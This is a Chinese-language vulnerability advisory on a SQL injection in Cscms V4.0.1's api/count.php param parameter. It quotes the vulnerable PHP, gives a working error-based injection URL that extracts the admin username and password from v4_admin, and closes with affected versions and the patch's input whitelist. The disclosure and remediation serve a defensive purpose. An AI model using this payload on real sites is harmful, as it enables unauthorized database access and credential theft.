 # Cscms V4.0.1在app/controllers/api/count.php中param参数sql注入
---
### 1. 漏洞成因

在/app/controllers/api/count.php中对param参数过滤不严

首先来看这段代码

```
function __construct(){
	parent::__construct();
    $this->load->library('user_agent');
    if(!$this->agent->is_referral()) show_error('您访问的页面不存在~!',404,Web_Name.'提醒您');
	//关闭数据库缓存
    $this->db->cache_off();
}
```
必须要对Referer头进行定义才能访问到该页面

下面是关键代码

```
public function index()
{
  	$count=0;
  	$param=$this->input->get('param',true,true);
  	if(!empty($param)){
       $str=explode('|', $param);
	   $table=$str[0];
	   if(!empty($table) && $this->db->table_exists(CS_SqlPrefix.$table)){
		    $sql="";
	        for($j=1;$j<count($str);$j++){	
	         	$v=explode('=', $str[$j]);
		     	if($v[0]=='times'){
                 	$k=explode('-', $v[1]);
			     	$fidel=$k[0];
			     	$day=intval($k[1]);
			     	$times=strtotime(date('Y-m-d 0:0:0'))-$day*86400;
                 	$sql.="and ".$fidel.">".$times." ";
		     	}else{
				 	if(!empty($v[1])){
                     	$sql.="and ".$v[0]."='".$v[1]."' ";
				 	}else{
                     	$sql.="and ".$str[$j]." ";
				 	}
		     	}
			}
			if(substr($sql,0,3)=='and') $sql=substr($sql,3);
			if(!empty($sql)) $sql=" where".$sql;
			$sql="select id from `".CS_SqlPrefix.$table."` ".$sql;
			$count=$this->db->query($sql)->num_rows();
	   }
  	}
  	echo 'document.writeln("'.$count.'")';
}
```

在上面这段代码中可以看到$param由get参数获得，并对此参数进行了一定的过滤操作，输入的空格会被删除

$str由$param以 | 来进行切分获得，$table为$str第一个元素并作为数据库将要查询的表的名字

通过上面的代码我们可以知道，如果$str元素个数只有2个，$v[0]!='times'并且$v[1]为空的时候，$str第二个参数会被直接拼接到$sql的后面

可以构造出以下

```
?param=admin|(select/**/1/**/from/**/(select/**/count(*),concat(floor(rand(0)*2),(select/**/concat(char(45,45),adminname,char(45,45,45),adminpass,char(45,45))/**/from/**/v4_admin/**/limit/**/1))x/**/from/**/information_schema.tables/**/group/**/by/**/x)a)
```
其中admin作为$table的值，| 后面则是另外一个查询

数据库最终执行的语句为：

![](http://images.sebug.net/contribute/807cca55-901e-4453-b6b6-23dd5e9b96de-1.png)

### 2. 漏洞验证
![](http://images.sebug.net/contribute/f1631dab-7ec0-456c-a344-5519ca57a5bf-3.png)

### 3. 漏洞影响版本
Cscms V4.0.1 且在2015-05-13补丁前的版本

### 4. 漏洞防护方案
升级到最新版

官方补丁对$param参数进行了更严格的过滤：

```
if(!preg_match("/^[a-zA-Z0-9_\|\=\-]+$/", $param)){
    $param='';
}
```